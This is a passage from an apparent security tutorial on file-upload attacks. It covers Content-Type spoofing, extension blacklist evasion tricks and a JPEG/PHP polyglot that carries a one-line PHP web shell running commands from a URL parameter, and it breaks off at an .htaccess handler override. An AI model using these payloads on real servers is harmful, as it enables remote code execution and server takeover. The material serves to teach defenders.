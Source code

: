 **Impact Assessment:**
- Complete server compromise
- Data exfiltration capabilities  
- Lateral movement within network infrastructure
- Persistent backdoor establishment

### Attack Vector #2: Content-Type Header Manipulation

Sophisticated applications often implement MIME type validation. However, client-controlled headers can be trivially manipulated.

**Bypass Technique:**
```http
Content-Disposition: form-data; name="file"; filename="exploit.php"
Content-Type: image/jpeg    // Spoofed MIME type
```

This technique exploits the trust placed in user-controllable HTTP headers, demonstrating why server-side validation must never rely solely on client-provided metadata.

### Attack Vector #3: Extension Blacklist Evasion

Many developers implement security through blacklisting dangerous extensions. This approach is fundamentally flawed due to:

**Alternative Extensions:**
- `.php5`, `.phtml`, `.phar` for PHP environments
- `.jsp`, `.jspx` for Java applications
- `.asp`, `.aspx` for .NET frameworks

**Obfuscation Techniques:**
- **Case manipulation:** `exploit.PHP`
- **Null byte injection:** `exploit.php%00.jpg`
- **Double extensions:** `exploit.php.jpg`
- **Unicode normalization attacks:** Using multibyte characters

### Attack Vector #4: Magic Bytes and Polyglot Files

Advanced applications validate file headers (magic bytes). Attackers counter this with polyglot files that maintain valid headers while embedding malicious code.

**JPEG + PHP Polyglot Example:**
```php
FF D8 FF E0 00 10 4A 46 49 46  // JPEG header
<?php echo system($_GET['cmd']); ?>
```

This technique allows files to pass strict content validation while maintaining their malicious functionality.

### Attack Vector #5: Server Configuration Exploitation

Attackers can manipulate server behavior by uploading configuration files:

**Apache .htaccess Manipulation:**
```apache
AddType application/x-httpd-php .l33t
```
